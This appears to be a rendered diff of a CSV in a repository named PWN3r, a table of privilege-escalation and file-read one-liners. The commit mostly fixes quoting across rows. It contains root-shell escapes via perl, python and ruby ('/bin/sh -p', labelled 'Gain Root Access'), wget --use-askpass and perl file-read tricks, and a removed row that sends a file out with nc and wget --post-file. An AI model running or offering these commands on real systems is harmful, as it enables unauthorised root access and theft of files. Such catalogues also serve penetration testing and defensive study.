

Before and after one commit to EGYCCAL/PWN3r, a CSV file: PWN3r/data/PWN3r.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/PWN3r/data/PWN3r.csv
+++ b/PWN3r/data/PWN3r.csv
-C47 (cmd): perl -e 'exec '/bin/sh';'
+C47 (cmd): perl -wne print '$FILE'
-D47 (type): Gain Root Access
+D47 (type): File Read
-C48 (cmd): …'import os; os.execl('/bin/sh'
+C48 (cmd): …'import os; os.execl("/bin/sh", "sh", "-p")'
-D48 (type): 'sh'
+D48 (type): Gain Root Access
-E48 (notes): '-p')'
+E48 (notes): (empty)
-F48: Gain Root Access
+F48: (empty)
-row 49: 49 | python3.8 | python -c "import os; os.execl("/bin/sh" | sh | -p)" | Gain Root Access
+row 49: 49 | ruby | echo "system('/bin/sh -p')" > rubytmp.rb; ruby rubytmp.rb;rm rubytmp.rb ; | Gain Root Access
-C56 (cmd): …>$TF;wget --use-askpass=$TF 0
+C56 (cmd): …>$TF;wget --use-askpass=$TF 0;
-row 57: 57 |  | nc -l 1234 // terminal 1;wget --post-file='$FILE' //terminal 2 | File Read
@@ column A (id) renumbered from row 57 down @@
```
Also changed, not shown: 1 other file.
